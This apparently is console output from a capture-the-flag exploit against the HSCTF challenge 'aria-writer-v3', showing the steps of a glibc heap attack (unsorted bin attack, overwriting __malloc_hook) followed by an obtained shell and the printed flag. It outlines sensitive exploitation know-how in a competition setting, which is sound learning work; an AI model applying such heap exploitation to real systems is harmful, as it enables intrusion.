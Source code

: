 ```
[*] putting 0x80 chunk to unsorted bin
[*] overwriting bk to trigger unsorted bin attack
[*] populating 0x602050 with main arena ptr
[*] bruteforcing 4 bit to land 0x150 chunk on __malloc_hook
[!] shell should've popped by now...
[*] Switching to interactive mode
$ ls
aria-writer-v3
bin
dev
flag
lib
lib32
lib64
$ cat flag
hsctf{i_wish_tho_:(_0a0d098213}
$ exit
what should i write tho > $ 
[*] Closed connection to pwn.hsctf.com port 2468
```